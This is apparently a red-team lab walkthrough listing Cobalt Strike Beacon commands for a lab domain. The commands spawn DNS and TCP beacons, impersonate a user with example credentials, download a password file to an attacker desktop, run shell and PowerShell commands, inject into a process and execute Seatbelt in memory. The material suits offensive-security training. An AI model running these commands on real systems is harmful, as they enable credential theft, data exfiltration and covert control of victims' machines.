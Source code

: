 ### Session Passing

#### spawn

1.  Use the spawn command to run a new DNS Beacon.
     `spawn x64 dns`
#### spawnas

1.  Spawn a TCP Beacon using alternate credentials.
    ` spawnas CONTOSO\rsteel Passw0rd! tcp-local`

### File System

1.  Change Beacon's working directory to the user's Documents folder.
    `cd C:\Users\pchilds\Documents`

2.  Confirm the new current working directory and list the directory.
    `pwd`
    `ls`
3.  Download the _password.txt_ file.
    `download password.txt`
     
4.  Sync the file to the Attacker Desktop.
    
    1. Go to **View > Downloads**.
    2. Select password.txt.
    3. Click **Sync Files**.
    4. Save the file to your desktop.

5.  Open the file in Notepad.

### Execution Commands

1.  Run a command via cmd.exe.
    `shell whoami /user`
    
2.  Run a command via powershell.exe.
    `powershell $env:computername`
    
3.  Run a command via unmanaged powershell.
    `powerpick $env:computername`
	 `psinject 6696 x64 $env:username`
    
4.  Run a .NET assembly in memory.
    `execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe AntiVirus`
    
5.  Run a BOF
    `ipconfig`